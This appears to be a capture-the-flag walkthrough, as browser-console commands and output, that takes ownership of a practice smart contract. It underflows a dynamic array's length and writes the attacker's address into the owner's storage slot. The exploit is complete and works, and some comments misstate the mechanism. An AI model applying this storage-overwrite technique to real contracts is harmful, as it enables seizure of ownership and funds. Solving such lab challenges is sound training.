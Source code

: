 


>await contract.abi
(11) [{…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}]
0: {constant: false, inputs: Array(2), name: 'revise', outputs: Array(0), payable: false, …}
1: {constant: true, inputs: Array(0), name: 'contact', outputs: Array(1), payable: false, …}
2: {constant: false, inputs: Array(0), name: 'retract', outputs: Array(0), payable: false, …}
3: {constant: false, inputs: Array(0), name: 'make_contact', outputs: Array(0), payable: false, …}
4: {constant: false, inputs: Array(0), name: 'renounceOwnership', outputs: Array(0), payable: false, …}
5: {constant: true, inputs: Array(0), name: 'owner', outputs: Array(1), payable: false, …}
6: {constant: true, inputs: Array(0), name: 'isOwner', outputs: Array(1), payable: false, …}
7: {constant: true, inputs: Array(1), name: 'codex', outputs: Array(1), payable: false, …}
8: {constant: false, inputs: Array(1), name: 'record', outputs: Array(0), payable: false, …}
9: {constant: false, inputs: Array(1), name: 'transferOwnership', outputs: Array(0), payable: false, …}
10: {anonymous: false, inputs: Array(2), name: 'OwnershipTransferred', type: 'event', constant: undefined, …}
length: 11
[[Prototype]]: Array(0)

>await contract.owner()
'0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272'

>await contract.contact()
false

>await contract.make_contact()
{tx: '0xc223773398fefde346210b099f65cba6a0ed1ef1d1558a9d3034b16000f4423c', receipt: {…}, logs: Array(0)}

>await web3.eth.getStorageAt(contract.address, 0, console.log) //single slot with two items 
'0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272' //same contract owner -> da5b3

>await contract.contact()
true 

//Modify codex length to 2256 by invoking retract:
>await contract.retract() 
 {tx: '0xeec2b183b5e29f05a21827df4fe47f0a425ea04a2757e54b03cebbc11e6ae8ee', receipt: {…}, logs: Array(0)}

Keccak256(k . p) 
k = key. value corresponding to the mapping 
p = position. storing the array length 

// starting with slot 1, which is where the length. array is defined
>p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))
'0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6'

//Converting hashed value to BigInt, we're able to subtract back to Slot 0 of the codex
>i = BigInt(2 ** 256) - BigInt(p)
35707666377435648211887908874984608119992236509074197713628505308453184860938n

//Padding our address with 0's to meet the expected 32 byte length.
//Exploiting a flaw in the ABI specs - Doesn't validate that the length of the array matches the length of the payload 
>content = '0x' + '0'.repeat(24) + player.slice(2)
'0x000000000000000000000000F6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

//place our content into the owner array index location 
//our address location of the index which is sitting at the zero location and we're going to take ownership of it
>contract.revise(i, content, {from:player, gas:900000}) // i = index 

//Hack Success!! validate we're owner! 
>await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'